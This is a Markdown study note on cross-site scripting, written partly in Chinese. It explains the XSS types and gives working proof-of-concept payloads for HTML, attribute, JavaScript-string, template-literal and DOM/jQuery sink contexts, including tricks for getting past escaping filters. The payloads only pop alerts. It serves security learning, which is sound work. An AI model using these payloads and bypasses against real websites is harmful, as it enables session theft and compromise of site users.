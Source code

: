 # Cross-site scripting (XSS)
## Types of XSS
### Reflected XSS
* 來自當前的 HTTP 請求，然後伺服器的回應。
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
### Stored XSS
* 來自網站的資料庫，e.x.留言。
```
<p>Hello, this is my message!</p>
```
### DOM-based XSS
* 來自客戶端程式碼，客戶端的程式碼將輸入直接寫入網頁中。
```
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```
### Self XSS
* Self-XSS通過誘騙用戶將惡意內容複製，並貼到瀏覽器的web開發者控制台進行攻擊。
*  XSS 是針對網站本身的攻擊（用戶無法保護自己，但可以由網站運營商修復，使他們的網站更安全）。
*   Self-XSS 是一種針對用戶的社會工程攻擊（精明的用戶可以保護自己免受攻擊，但網站運營商對此無能為力）。
## XSS contexts
### XSS between HTML tags
* [SVG animate XSS vector (透過svg動畫來注入xss)](https://portswigger.net/research/svg-animate-xss-vector)
```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
* [select option 中插入 xss](https://security.stackexchange.com/questions/136265/is-an-option-tag-that-can-have-any-inner-html-value-inserted-into-it-xss-able)
```
<select>
    <option>ANY VALUE</option>
</select>
```
```
</option></select><svg onload=alert(1)>
```
### XSS in HTML tag attributes
* 加入新的tag，來注入xss。
```
"><script>alert(0)</script>
```
* 加入新的 attr，來注入xss。
```
" autofocus onfocus=alert(0) x="
```
* javascript pseudo-protocol
```
<a href="javascript:alert(0)">
```
* [canonical link tag](https://portswigger.net/research/xss-in-hidden-input-fields)
```
https://url/?'accesskey='x'onclick='alert(1)
```
### XSS into JavaScript
#### Terminating the existing script
* 假設現在情境是使用者輸入會被寫到 input。
```
<script>
...
var input = 'controllable data here';
...
</script>
```
* 我們可以用下面的 payload 來達成 xss，因為對瀏覽器而言會先解析 html 標籤，而我們的 payload 破壞了原本的 script，但瀏覽器還是會繼續執行其他script，因此會觸發我們的 payload。
```
</script><img src=1 onerror=alert(0)>
```
* 加入 payload 之結果。
```
<script>
...
var input = '</script><img src=1 onerror=alert(0)>';
...
</script>
```
#### Breaking out of a JavaScript string
* 可以用下列方法，用來打破字串執行 script。 (減號 `-` 的用法原理可以參考[這篇](https://stackoverflow.com/questions/55498784/cross-site-scripting-xss-using-a-hyphen))
```
'-alert(0)-'
';alert(0)//
```
* 有些網站可能會轉義 `'` 單引號成`\'`，但他們並未將`\`前的字符應該保留而不轉義，因此我們可以透過下面手法，來達成攻擊。
```
';alert(0)//   原本payload
\';alert(0)//  被轉義後
```
```
\';alert(0)//  新的payload
\\';alert(0)// 被轉義後
```
* 此外，我們可以透過 throw 與 onerror 來 bypass 網站的防禦。透過 throw 傳遞參數給 alert，這邊將會把 1 傳給 alert。
```
onerror=alert;throw 1
```
#### Making use of HTML-encoding
* 有時我們可以透過 html 編碼來繞過過濾器，`&apos;` 為 `'`的 html 編碼。
```
&apos;-alert(0)-&apos;
```
#### XSS in JavaScript template literals
* 有時我們可以透過 js 的模板文字插入 xss。
```
${alert(0)}
```
### Exploiting DOM XSS with different sources and sinks
#### document.write()
* document.write() 中可以執行 script，因此可以利用下面 payload。
```
document.write('... <script>alert(0)</script> ...');
```
#### innerHTML
* innerHTML 中不會執行 script 與 svg onload event，所以可以改用 iframe、img ，並搭配 onload 、onerror event。
```
element.innerHTML='... <img src=1 onerror=alert(0)> ...'
``` 
### Sources and sinks in third-party dependencies
#### attr()
* 利用 attr func 加入 href 屬性值中插入 xss。
```
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```
```
?returnUrl=javascript:alert(document.domain)
```
#### location.hash
* 利用 location hash 中加入 xss。
* 此方法會成功主要是因為，jQuery選擇器`$()`當中，我們可以直接加入我們想要的標籤，來觸發執行 js。
* `$(<img src=1 onerror=alert(1)>)` 簡單來說這是會執行出 alert 的。
```
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```
```
https://vulnerable-website.com#<img src=x onerror=print()>
```
```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
---
###### tags: `web security`